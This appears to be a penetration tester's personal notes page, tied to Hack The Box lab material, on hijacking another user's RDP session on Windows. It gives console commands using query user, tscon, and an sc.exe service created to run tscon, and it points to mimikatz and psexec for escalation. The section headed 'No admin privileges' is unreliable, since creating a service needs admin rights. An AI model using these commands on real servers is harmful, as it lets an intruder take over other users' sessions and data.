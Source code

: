 tscon.exe
############

Date: 2024-11-29 18:50

Status: #utility

Usage
**********

Hijacking a user session
==========================

Say you are on a Win server and you are admin, and you wish to take over
a session of an RDP logged in user. If you don’t have admin, consider
using `psexec <psexec>`__ or `mimikatz <mimikatz>`__ to escalate.

Find users:

.. code-block:: console

   PS C:\ query user

   USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
   >juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
    lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

Use tscon to connect to the session

.. code-block:: console

   C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}

Option 2 : No admin privileges

Create a privileged service with `sc.exe <sc.exe>`__

.. code-block:: console

   C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

Start the service

.. code-block:: console

   C:\htb> net start sessionhijack

Now to impersonate this user

References
*************
https://academy.hackthebox.com/module/116/section/1171
https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tscon
